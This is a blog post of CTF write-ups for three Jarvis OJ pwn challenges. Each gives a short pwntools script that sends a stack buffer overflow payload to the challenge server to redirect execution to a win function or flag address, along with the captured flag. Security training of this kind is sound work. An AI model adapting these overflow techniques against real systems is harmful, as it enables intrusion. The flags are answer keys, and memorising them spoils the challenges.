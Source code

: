 ```yaml
---
layout: post
title:  "Jarvis OJ-从Pwn到去世"
date:   2019-2-12
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF,JarvisOJ,Pwn]
icon: icon-html
---
```


# Jarvis OJ-从Pwn到去世

* #### Tell Me Something 

  ```python
  from pwn import *
  sh = remote("pwn.jarvisoj.com",9876)
  payload = 'a'*136 + p64(0x0000000000400620) 
  sh.recvuntil("message:\n")
  sh.sendline(payload)
  print(sh.recv())
  #PCTF{This_is_J4st_Begin}
  ```

* #### Test Your Memory

   ```python
   from pwn import *
   sh = remote("pwn2.jarvisoj.com",9876)
   elf =ELF("./memory") 
   win_func_addr = elf.symbols['win_func']
   catFlag_addr = 0x080487E0
   padding = 'a' * (0x13 + 0x4)
   payload = padding
   payload += p32(win_func_addr) + p32(0x08048677) + p32(catFlag_addr)
   
   sh.sendline(payload)
   print(sh.recv())
   print(sh.recv())
   #CTF{332e294fb7aeeaf0e1c7703a29304343}
   ```

* #### Smashes 

   ```python
   from pwn import *
   r = remote('pwn.jarvisoj.com',9877)
   flag_addr = 0x400d20
   payload = 'a' * 0x218 + p64(flag_addr)
   #payload = p64(0x400d21) * 1000
   r.sendline(payload)
   r.interactive()
   #PCTF{57dErr_Smasher_good_work!}
   ```
